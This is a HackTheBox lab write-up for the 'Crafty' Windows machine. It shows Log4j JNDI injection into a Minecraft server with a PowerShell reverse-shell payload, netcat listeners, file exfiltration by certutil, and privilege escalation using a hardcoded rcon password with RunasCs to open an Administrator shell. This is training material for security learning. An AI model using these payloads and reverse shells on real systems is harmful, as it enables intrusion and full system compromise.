



# Crafty



Machine: [https://app.hackthebox.com/machines/Crafty](https://app.hackthebox.com/machines/Crafty)

Created by: [TheCyberGeek](https://app.hackthebox.com/users/114053) & [felamos](https://app.hackthebox.com/users/27390)

Difficulty: Easy

OS: Windows

## Machine Info

Crafty is an easy-difficulty Windows machine featuring the exploitation of a `Minecraft` server. Enumerating the version of the server reveals that it is vulnerable to pre-authentication Remote Code Execution (RCE), by abusing `Log4j Injection`. After obtaining a reverse shell on the target, enumerating the filesystem reveals that the administrator composed a Java-based `Minecraft` plugin, which when reverse engineered reveals `rcon` credentials. Those credentials are leveraged with the `RunAs` utility to gain Administrative access, compromising the system.

## Enumeration

### Nmap

```shell
labadmin@labmachine:~/crafty$ nmap -p- -sV -sC --min-rate 1000 -oN crafty-sv-sc-nmap.log 10.10.11.249
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 04:36 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.10.11.249
Host is up (0.32s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 156.60 seconds
```

Nmap scan reveals 2 open ports.

- 80/tcp    open  http      Microsoft IIS httpd 10.0
- 25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)

We also see that port 80 redirects to `http://crafty.htb` so we add that to /etc/hosts.

```shell
sudo bash -c 'echo "10.10.11.249  crafty.htb" >> /etc/hosts'
```

### HTTP port 80

Navigating to `http://crafty.htb` and it loads a Minecraft page named Crafty.



On the page we find a subdomain `play.crafty.htb`.

So we add that to `/etc/hosts`

```shell
10.10.11.249  crafty.htb  play.crafty.htb
```

Other than that clicking the links leads to a coming soon page.



Navigating to `http://play.crafty.htb/` redirect us back to `http://crafty.htb/`.

### Minecraft port 25565

Searching vulnerabilities for Minecraft 1.16.5 we find this vulnerability [Security-Vulnerability-in-Minecraft-Java-Edition](https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-Vulnerability-in-Minecraft-Java-Edition). It is a `Log4j` vulnerability and to check if we can exploit the Minecraft server we first need a client. We will use Minecraft-Console-Client that we find and downloaded from here [Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client).

We try connect with a dummy user and blank password and we successfully connected.

```shell
labadmin@labmachine:~/crafty$ ./MinecraftClient-20240415-263-linux-x64 duser "" 10.10.11.249

Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 263, built on 2024-04-15 from commit 403284c
Settings file MinecraftClient.ini has been generated.

MCC is running with default settings.
Password(invisible): 
You chose to run in offline mode.
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
```

## Foothold

We now have access to Minecraft server and as next step we will use `Rogue JNDI` as exploit server to try get a reverse shell.

To start with we will build Rogue JNDI.

```shell
labadmin@labmachine:~/crafty$ git clone https://github.com/veracode-research/rogue-jndi.git
[...OMITTED...]
labadmin@labmachine:~/crafty$ cd rogue-jndi/
labadmin@labmachine:~/crafty$ mvn package
[...OMITTED...]
```

Next we start a local network listener.

```shell
labadmin@labmachine:~/crafty$ nc -lvnp 6000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6000
Ncat: Listening on 0.0.0.0:6000
```

Then we generate reverse shell payload [https://www.revshells.com/](https://www.revshells.com/) using powershell and base64 encoding.

Now we go to the directory we built Rogue JNDI and start the exploit server by `target/RogueJndi-1.1.jar` with the reverse shell payload. Then we leave it to wait for our call from the Minecraft server.

```shell
labadmin@labmachine:~/crafty/rogue-jndi$ java -jar target/RogueJndi-1.1.jar --command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdA[...OMITTED...]UAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" --hostname "10.10.16.13"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
[...OMITTED...]
```

From the Minecraft documentation we find out we can use the send command to send messages to the server.

[https://mccteam.github.io/guide/usage.html#send](https://mccteam.github.io/guide/usage.html#send)

So we go back the Minecraft server terminal and send payload to call our local Rogue JNDI server that will setup the reverse shell for us.

```shell
<duser> ${jndi:ldap://10.10.16.13:1389/o=reference}
```

And we got reverse shell as svc_minecraft

```shell
labadmin@labmachine:~/crafty$ nc -lvnp 6000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6000
Ncat: Listening on 0.0.0.0:6000
Ncat: Connection from 10.10.11.249:49820.
whoami
crafty\svc_minecraft
PS C:\users\svc_minecraft\server> 
```

And we get the user flag.

```shell
PS C:\users\svc_minecraft\Desktop> type user.txt
[...OMITTED...]
```

## Privilege Escalation

Exploring the file system we find the Minecraft server directory and the plugin `playercounter-1.0-SNAPSHOT.jar`.

```shell
PS C:\Users\svc_minecraft\server\plugins> icacls playercounter-1.0-SNAPSHOT.jar
playercounter-1.0-SNAPSHOT.jar NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Administrators:(I)(F)
                               CRAFTY\svc_minecraft:(I)(RX)
```

To transfer the file locally we will base64 encode it on the target machine and then copy the base64 text to local machine and finally base64 decode it back to a binary.

On target machine.

```shell
mkdir C:\tmp
PS C:\tmp> copy C:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar C:\tmp\ 
PS C:\tmp> certutil -encode playercounter-1.0-SNAPSHOT.jar encoded.txt
Input Length = 9996
Output Length = 13802
CertUtil: -encode command completed successfully.
PS C:\tmp> type encoded.txt
-----BEGIN CERTIFICATE-----
UEsDBBQACAgIABY0W1cAAAAAAAAAAAAAAAAJAAQATUVUQS1JTkYv/soAAAMAUEsH
CAAAAAACAAAAAAAAAFBLAwQUAAgICAAWNFtXAAAAAAAAAAAAAAAAFAAAAE1FVEEt
[...OMITTED...]
```

We copy the base64 to a local file and decode it. And we confirm it is a JAR file.

```shell
labadmin@labmachine:~/crafty$ cat encoded.txt |  base64 --decode > playercounter-1.0-SNAPSHOT.jar
labadmin@labmachine:~/crafty$ file playercounter-1.0-SNAPSHOT.jar 
playercounter-1.0-SNAPSHOT.jar: Java archive data (JAR)
```

We use [https://www.decompiler.com/](https://www.decompiler.com/) that is a online service that decompile JAR files.

We find the Playercounter.java in the htb\crafty\playercounter directory.

```java
package htb.crafty.playercounter;

import java.io.IOException;
import java.io.PrintWriter;
import net.kronos.rkon.core.Rcon;
import net.kronos.rkon.core.ex.AuthenticationException;
import org.bukkit.plugin.java.JavaPlugin;

public final class Playercounter extends JavaPlugin {
   public void onEnable() {
      Rcon rcon = null;

      try {
         rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());
      } catch (IOException var5) {
         throw new RuntimeException(var5);
      } catch (AuthenticationException var6) {
         throw new RuntimeException(var6);
      }

      String result = null;

      try {
         result = rcon.command("players online count");
         PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");
         writer.println(result);
      } catch (IOException var4) {
         throw new RuntimeException(var4);
      }
   }

   public void onDisable() {
   }
}
```

In the source code we can find plain text password `s67u84zKq8IXw` used to authenticate rcon. 

It could potentially be the Administrator password and we upload [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs) and try execute.

First we host the RunasCS with a local python server.

```shell
labadmin@labmachine:~/crafty$ python3 -m http.server --directory /usr/share/windows-binaries/RunasCs/ 8100
Serving HTTP on 0.0.0.0 port 8100 (http://0.0.0.0:8100/) ...
```

Fetch it from the target machine.

```shell
PS C:\ProgramData> powershell.exe Invoke-WebRequest http://10.10.16.13:8100/RunasCs.exe -O RunasCs.exe
```

Then we execute RunasCs.exe on target machine with the found password and it works.

```shell
PS C:\ProgramData> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"

crafty\administrator
```

We now start a new local netcat listener and connect from target machine using RunasCs.exe.

Start the local listener.

```shell
labadmin@labmachine:~/crafty$ nc -lnvp 6001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6001
Ncat: Listening on 0.0.0.0:6001
```

Connect from target machine.

```shell
PS C:\ProgramData> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.16.13:6001

[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 4556 created in background.
```

And we are connected as Administrator on our local listener.

```shell
labadmin@labmachine:~/crafty$ nc -lnvp 6001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6001
Ncat: Listening on 0.0.0.0:6001
Ncat: Connection from 10.10.11.249:49834.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
crafty\administrator
```

And we get the root flag.

```shell
c:\Users\Administrator\Desktop>type root.txt
type root.txt
[...OMITTED...]
```
